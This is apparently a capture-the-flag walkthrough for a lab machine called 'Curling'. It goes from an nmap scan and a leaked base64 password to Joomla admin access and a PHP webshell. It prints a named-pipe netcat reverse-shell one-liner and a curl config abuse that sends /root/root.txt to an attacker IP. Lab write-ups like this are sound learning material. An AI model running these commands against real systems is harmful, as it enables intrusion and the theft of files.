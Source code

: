 # Curling Box:
## Nmap scan:
```js
sudo nmap -sS 10.10.10.150                                     

Starting Nmap 7.40 ( https://nmap.org ) at 2018-11-14 22:44 AEDT
Nmap scan report for 10.10.10.150
Host is up (0.37s latency).                                                                                     
Not shown: 998 closed ports                                                                                     
PORT   STATE SERVICE                                                                                            
22/tcp open  ssh                                                                                                
80/tcp open  http                                                                                               
Nmap done: 1 IP address (1 host up) scanned in 146.83 seconds
```

## Secret.txt:
* Examining the HTML contents, we see a reference to secret.txt.
* Contains a base64 encoded string that is the password of the user: Floris
* Decodes to Curling2018!

## Administrator panel:
* Using dirsearch.py, we find that there is an admin panel for this website.
* Using U:Floris and P:Curling2018!, we can log in and install some modules.
* Install a file upload module. Modules can be found on the Joobla website.

## Attack:
* In the file upload module, disable all the security mechanisms.
* Upload a php webshell
* We have a password backup file but not sure what to do with it.
* Cant get the reverse shell to work however we can connect to the machine.

## Reverse shell (Not root):
* Managed to get a reverse shell via a named pipe.
* I set up my kali machine to be a listening server:
```js
  nc -lvnp 1234
```
* From the webshell, I executed:
```js
  rm /tmp/f
  mkfifo /tmp/f
  cat /tmp/f | /bin/sh -i 2>&1 | nc [server ip] [server port] > /tmp/f
```
* To get a proper shell that can handle signals and stuff:
```js
  python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Getting user.txt:
* Under /home/floris, there is a hexdump file called password_backup.
* The first few bytes indicates that this file is a bzip compressed archive.
* **bzip2 decompression:**
```js
  xxd -r password_backup > password_backup.bin
  bzip2 -d password_backup.bin // replaces the .bin file
```
* The extracted file is gzip compressed data. Decompressing:
```js
  gunzip < password_backip.out > pw 
```
* The extracted file "pw" is a tar archive so:
```js
  tar -xvf pw
```
* Finally a password.txt file appears which is the password for the account "floris". We can go ahead and ssh in using the user floris.

* Changed password to: passflag5

## Prvilege escalation:
* There is a folder in floris's home directory called "admin-area".
* Basically there is an unknown script that writes to both input and report every minute. See curl.png for more details.
* The script executes:
```js
 curl -K input -o report 
```
* The script above is running as **root**.
* The configuration file input is writeable.
* Change it so that it **uploads /root/root.txt**
* The configuration file should look like:
```js
  url="http://10.10.14.8" // ATTACKER IP
  -F "text=@/root/root.txt"
```
* Once the script executes curl with the configuration above, the contents of root.txt will be sent to the attacker's server on port 80 (http).
* Don't forget to setup a netcat server on the attacking machine on port 80.

## What I learned:
* To see all processes running on the system:
```js
  ps -ef 
```
* Command injection is sneaky and fun.
